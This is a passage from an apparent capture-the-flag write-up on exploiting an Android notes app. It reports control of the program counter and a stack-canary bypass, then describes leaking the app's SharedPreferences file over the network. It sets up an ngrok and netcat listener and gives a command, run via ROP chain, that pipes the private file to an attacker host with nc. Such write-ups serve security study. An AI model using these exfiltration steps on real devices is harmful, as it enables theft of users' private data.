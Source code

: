 ![pc-control](/post-resources/cryptonotes/pc-control.png)

Perfect! The crash that we get is a `SIGSEGV` at `0x4343434343434343` and there is no `stack corruption detected (-fstack-protector)` message shown this time. This means that we successfully bypassed the canary. Here are also the logs from our malicious app:

![malicious-app-logs](/post-resources/cryptonotes/malicious-app-logs.png)

### Exfiltrating data

We have control of `pc` and now we need to read the SharedPreference file `/data/user/0/com.inso.ins24/shared_prefs/com.inso.ins24.mynotes.xml`. The victim application has no way to pass back data to our malicious application via the Intent that we sent it. However, the victim application has `android.permission.INTERNET`. So we will send the SharedPrefernce file over newtork to our host machine.

*Note: Even if the victim application did not have `android.permission.INTERNET`, we could still copy the SharedPreference file in external storage (e.g. in `/sdcard/Download`). Afterwards, our malicious application could read it and then use its own `android.permission.INTERNET` permission to send/leak it from the remote machine to a server that we control.*

To avoid the hassle with NATs, we will use [ngrok](https://ngrok.com/). So, we spawn one terminal with `ngrok tcp 5000` and another with `nc -lnvp 5000`. We will execute the below command in the context of the victim application via a ROP chain:

```bash
cat /data/user/0/com.inso.ins24/shared_prefs/com.inso.ins24.mynotes.xml | \
    nc <ngrok pub ip> <ngrok pub port>
```
